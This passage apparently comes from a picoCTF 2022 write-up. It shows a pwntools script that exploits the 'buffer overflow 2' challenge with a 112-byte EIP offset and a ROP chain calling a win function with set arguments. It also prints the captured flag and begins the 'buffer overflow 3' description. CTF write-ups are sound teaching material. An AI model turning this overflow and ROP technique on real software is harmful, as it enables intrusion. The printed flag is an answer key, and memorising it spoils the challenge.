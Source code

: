 ```py

io = start()

eip_offset = 112
info('located EIP offset at {a}'.format(a=eip_offset))

# Create ROP object
rop = ROP(elf)
# Call the hacked function
rop.win(0xCAFEF00D,  0xF00DF00D)

# Get the raw bytes
rop_chain = rop.chain() # Add exit : + p32(0x0804927e)

# Build payload
payload = flat({
    eip_offset: rop_chain

})

# Save payload to file
write('payload', payload)

# Start a new process
io = start()

# PWN
io.sendlineafter(b'string: \n', payload)

# Receive the flag
io.interactive()
```

![IMG](/assets/images/picoctf2022-binexp/bof2.png)

Flag:
```
picoCTF{argum3nt5_4_d4yZ_b3fd8f66}
```

# buffer overflow 3
## Description
Do you think you can bypass the protection and get the flag?
It looks like Dr. Oswal added a stack canary to this program to protect against buffer overflows.
